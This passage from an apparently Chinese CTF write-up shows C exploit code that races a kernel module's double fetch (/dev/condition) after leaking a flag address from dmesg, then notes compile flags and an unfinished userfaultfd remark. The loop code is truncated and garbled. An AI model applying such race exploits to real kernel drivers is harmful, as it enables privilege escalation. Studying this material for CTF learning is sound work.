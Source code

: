 ```
 
    int devFD;
    int addrFD;
    unsigned long memOffset;
    pthread_t thread;
 
    //open Dev
    char* pos = "/dev/condition";
    devFD = openDev(pos);
 
    char flagBuf[16] = {0};
    flagReadFun(devFD,16,flagBuf);
 
 
    system("dmesg > /tmp/record.txt");
    addrFD = open("/tmp/record.txt",O_RDONLY);
    lseek(addrFD,-0x1000,SEEK_END);
    read(addrFD,readFlagBuf,0x1000);
    close(addrFD);
    int flagIdxInBuf;
    flagIdxInBuf = strstr(readFlagBuf,"Your flag is at ");
    if (flagIdxInBuf == 0){
        printf("[-]Not found addr");
        exit(-1);
    }
    else{
        flagIdxInBuf+=16;
        flagKerneladdr = strtoull(flagIdxInBuf,flagIdxInBuf+16,16);
        printf("[+]flag addr: %p\n",flagKerneladdr);
    }
 
    pthread_create(&thread, NULL, changeFlagAddr,&flagChunk);
    for(int i=0;iflagUseAddr = flagKerneladdr;
        flagPTChunk->flagUseAddr = flagKerneladdr;
    }
} 
```

最后如下效果：

 

![](https://pig-007.oss-cn-beijing.aliyuncs.com/img/20211019152917.png)

 

需要注意的是在 gcc 编译的时候需要加上`-lpthread`多线程的参数。还有线程的回调函数必须传入至少一个参数，不管该参数在里面有没有被用到。

 

**使用 userfaultfd 还不太会，之后再补。**

[](#二、任意读写漏洞)二、任意读写漏洞
=====================

